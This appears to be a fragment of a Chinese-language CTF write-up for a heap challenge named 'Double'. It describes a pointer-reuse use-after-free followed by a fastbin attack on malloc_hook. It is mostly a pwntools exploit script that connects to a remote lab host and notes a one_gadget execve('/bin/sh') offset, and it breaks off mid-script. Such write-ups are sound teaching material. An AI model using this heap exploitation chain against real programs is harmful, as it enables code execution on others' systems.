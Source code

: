```python
```



##	Double

新增node时 ，会出现重用指针的情况， 导致后面的 uaf

![](https://i.loli.net/2019/04/21/5cbbfe4598cd4.png)

然后 fastbin 改 malloc_hook

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
from pwn import *
from time import sleep

path = "/home/hac425/vm_data/pwn/gs/Double/pwn"
aslr = True
context.log_level = True
context.terminal = ['tmux', 'split', '-h']

libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")

p = process(path, aslr=aslr)

p = remote("e095ff54e419a6e01532dee4ba86fa9c.kr-lab.com", 40002)


def new(data):
    p.sendlineafter("> ", "1")
    p.sendafter("Your data:", data)


def show(index):
    p.sendlineafter(">", "2")
    p.sendlineafter("index: ", str(index))


def edit(index, data):
    p.sendlineafter(">", "3")
    p.sendlineafter("index: ", str(index))
    sleep(0.1)
    p.send(data)


def delete(index):
    p.sendlineafter(">", "4")
    p.sendlineafter("index: ", str(index))


new("0" * (0x80 - 1) + "\n")  # 0
new("1" * (0x90 - 1) + "\n")  # 1
new("1" * (0x90 - 1) + "\n")  # 2
new("2" * (0x80 - 1) + "\n")  # 3

delete(1)
show(2)

"""
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

```